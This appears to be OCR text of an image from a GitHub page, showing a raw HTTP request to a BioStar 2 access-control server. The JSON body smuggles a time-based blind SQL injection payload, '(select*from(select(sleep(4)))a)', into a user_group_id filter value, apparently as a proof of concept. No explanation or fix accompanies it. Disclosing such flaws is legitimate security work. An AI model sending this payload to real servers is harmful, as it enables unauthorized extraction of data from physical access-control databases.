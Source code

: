 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json;charset=UTF-8
content-language: en
bs-session-id: 207c1c3c3b624fcc85b7f0814c4bf548
Content-Length: 204
Origin: https://biostar2.server.net
Connection: close
Referer: https://biostar2.server.net/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"Query":{"offset":0,"limit":51,"atLeastOneFilterExists":true,"conditions":[{"column":"user_group_id.id","operator":2,"values":["(select*from(select(sleep(4)))a)",4840,20120]}],"orders":[],"total":false}}
